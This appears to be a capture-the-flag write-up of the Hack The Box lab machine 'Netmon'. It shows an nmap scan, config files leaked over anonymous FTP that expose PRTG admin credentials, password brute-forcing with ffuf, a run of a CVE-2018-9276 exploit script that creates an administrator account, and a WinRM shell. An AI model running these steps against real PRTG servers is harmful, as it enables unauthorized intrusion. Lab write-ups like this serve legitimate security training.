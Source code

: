 ```yaml
---
tags:
  - windows
---
```

# HTB: [Netmon](https://app.hackthebox.com/machines/Netmon)

## Services

### TCP

`nmap` TCP scan:

```console
# Nmap 7.94SVN scan initiated Mon Sep  9 10:03:30 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-netmon.htb.txt netmon.htb
Nmap scan report for netmon.htb (10.10.10.152)
Host is up, received user-set (0.099s latency).
rDNS record for 10.10.10.152: t
Not shown: 49819 closed tcp ports (reset), 15703 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
21/tcp    open  ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  unknown      syn-ack ttl 127
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-09-09T16:04:49
|_  start_date: 2024-09-08T18:36:25

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 10:05:46 2024 -- 1 IP address (1 host up) scanned in 136.06 seconds
```

### 21/ftp

Anonymous FTP is permitted. A windows filesystem is exposed there. Interestingly there's a `user.txt` flag readable in `\Users\Public\Desktop` but it doesn't work.

MIrrored via: `wget --mirror 'ftp://anonymous:hax@netmon.htb'`

#### 80/tcp-http

```console
$ whatweb -a3 http://netmon.htb/
http://netmon.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
ERROR Opening: http://netmon.htb/index.htm - incorrect header check
```

```http
$ curl -I http://netmon.htb/index.htm
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 33654
Date: Mon, 09 Sep 2024 16:05:29 GMT
Expires: 0
Cache-Control: no-cache
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Server: PRTG/18.1.37.13946
```

![](_/htb-netmon-20240909-1.png)

```console
$ ffuf -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -u http://netmon.htb/public/checklogin.htm -X POST -d 'username=prtgadmin' -d 'password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -ac
...
:: Progress: [10000/10000] :: Job [1/1] :: 29 req/sec :: Duration: [0:05:51] :: Errors: 9 ::
```

## Remote Code Execution

Old credentials leaked via Anonymous FTP in an old config file: `Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old`

```xml
...
<name>
  PRTG System Administrator
</name>
<ownerid>
  100
</ownerid>
<password>
  <flags>
    <encrypted/>
  </flags>
  <cell col="0" crypt="PRTG">
    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
  </cell>
  <cell col="1" crypt="PRTG">
    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
  </cell>
</password>
```

And another, from a `.bak` copy:

```xml
<name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ====
                  </cell>
                  <cell col="1" crypt="PRTG">
                    M24VKFRECBEGN3ZQNGSET723GFIPVHYX
                  </cell>
                </password>
```

I tried [prtg_string_decryptor.py](https://github.com/yobabyte/decryptocollection/tree/main) on both sets of encrypted credentails, with bad results:

```console
$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======'
-305569838

$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ===='
-1840798137
```

From `/Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak`:

```text
...
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
...
```

That didn't work but `PrTg@dmin2019` did:

![](_/htb-netmon-20240909-2.png)

Now I can try [CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276):

```console
$ ./46527.sh -u http://netmon.htb -c '_ga=GA1.2.1686798169.1725897817; _gid=GA1.2.1816280327.1725897817; OCTOPUS1813713946=ezc2QjMxQ0RELUI2MzUtNDI5NS04QTIxLTk1NjA2NDFEMkRFOH0%3D'
...
 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

```powershell
$ evil-winrm -i netmon.htb -u pentest -p 'P3nT3st!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```

## Privilege Escalation

Because the RCE exploit above returns a privileged user, no further privilege escalation is necessary.

## Post-exploitation

Life after `root`.

## Open Questions

## Credits